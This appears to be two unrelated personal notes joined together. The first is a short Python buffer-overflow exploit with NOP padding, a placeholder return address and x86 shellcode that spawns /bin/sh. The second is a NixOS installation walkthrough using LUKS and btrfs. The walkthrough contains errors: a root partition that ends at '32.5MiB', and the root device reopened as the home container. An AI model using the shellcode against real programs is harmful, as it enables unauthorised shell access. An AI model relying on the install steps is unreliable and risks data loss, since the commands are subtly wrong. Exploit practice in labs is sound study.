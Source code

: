 ```python
import sys

OFFSET      = b"\x41"
EIP         = b"\x38\xcd\xff\xff" # PLEASE FIND THE CORRECT EIP FOR EVERY COMPUTER MEMORY ADDRESS. DO NOT USE THIS ADDRESS SINCE IT'S DIFFERENT FOR ALL COMPUTERS
NOP         = b"\x90" 

SHELLCODE   = b"\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"
SHELLCODE2  = b"\x31\xc0\x40\x89\xc3\xcd\x80"

exploit     = SHELLCODE2 + NOP*5 + EIP
sys.stdout.buffer.write(exploit)
```

continuation of [[Plugins/Daily Notes/2024/February/11]]. solution to [[Plugins/Daily Notes/2024/February/09]]. other example in [[Plugins/Daily Notes/2024/February/01]]

---

#nixos #nixos-installation 

# partitioning the drive

1. Set partition table to GPT

```sh
#parted /dev/<device> -- mklabel gpt
parted /dev/vda -- mklabel gpt
```

2. Create boot partition

```sh
#parted /dev/<device> -- mkpart ESP fat32 1MiB 512MiB
parted /dev/vda -- mkpart ESP fat32 1MiB 512MiB
```

3. Set ESP boot flag

```sh
#parted /dev/<device> -- set <partition number> <partition label> on
parted /dev/vda -- set 1 ESP on
```

4. Create root and home partition

```sh
#parted /dev/<device> -- mkpart root <file system> <start> end>
parted /dev/vda -- mkpart root btrfs 512MiB 32.5MiB
parted /dev/vda -- mkpart home btrfs 32.5GiB 100%
```

simpler version

```sh
parted /dev/vda
mklabel gpt
mkpart ESP fat32 1MiB 512MiB
set 1 ESP on
mkpart root btrfs 512MiB 32.5GiB
mkpart home btrfs 32.5GiB 100%
```

`print` to verify

# formatting with luks encryption

1. format boot partition (no encryption)

```sh
mkfs.fat -F 32 -n boot /dev/vda1
```

2. format root and home partitions with luks

```sh
#cryptsetup --verify-passphrase -v luksFormat <partition>
cryptsetup --verify-passphrase -v luksFormat /dev/vda2
cryptsetup --verify-passphrase -v luksFormat /dev/vda3
```

> [!NOTE]
> This does not include a label to the luks container. Use `cryptsetup config <luks container> --label <label>` to add a label.

3. mount encrypted partitions

```sh
#cryptsetup open <partition> <label>
cryptsetup open /dev/vda2 root_luks
cryptsetup open /dev/vda2 home_luks
```

4. partition home and root

```sh
#mkfs.btrfs -L <label> <luks dev mapper name>
mkfs.btrfs -L nixos /dev/mapper/root_luks
mkfs.btrfs -L home /dev/mapper/home_luks
```
i use `root` and `home` to have separate partition labels. this causes an issue in booting if labels are the same. the labels here might be used by `/dev/disk/by-label/`.

5. mounting root and home partitions

```sh
#mount -t <file system> /dev/mapper/<partition> </mnt locations>
mount -t btrfs /dev/mapper/root_luks /mnt
mount -t btrfs /dev/mapper/home_luks /mnt/home
```

do `mkdir /mnt/home` if directory does not exist

6. creating subvolumes

```sh
btrfs subvolume create /mnt/root
btrfs subvolume create /mnt/nix
btrfs subvolume create /mnt/persist
btrfs subvolume create /mnt/log
btrfs subvolume snapshot -r /mnt/root /mnt/root-blank
```

7. unmount

```sh
umount /mnt/home
umount /mnt
```

8. mount root and home, and others

```sh
mount -o subvol=root,compress=zstd,noatime,ssd,space_cache=v2 /dev/mapper/root_luks /mnt
```

9. create directories for mount point

```sh
mkdir /mnt/home
mkdir /mnt/nix
mkdir /mnt/persist
mkdir -p /mnt/var/log
```

10. mount home and subvolumes

```sh
mount -o compress=zstd,relatime,ssd,space_cache=v2 /dev/mapper/home_luks /mnt/home
mount -o subvol=nix,compress=zstd,noatime,ssd,space_cache=v2 /dev/mapper/root_luks /mnt/nix
mount -o subvol=persist,compress=zstd,noatime,ssd,space_cache=v2 /dev/mapper/root_luks /mnt/persist
mount -o subvol=log,compress=zstd,noatime,ssd,space_cache=v2 /dev/mapper/root_luks /mnt/var/log
```

11. mount boot

```sh
mkdir /mnt/boot
#mount /dev/<partition> /mnt/boot
mount /dev/vda1 /mnt/boot
```

12. generate nixos-config

```sh
nixos-generate-config --root /mnt
```

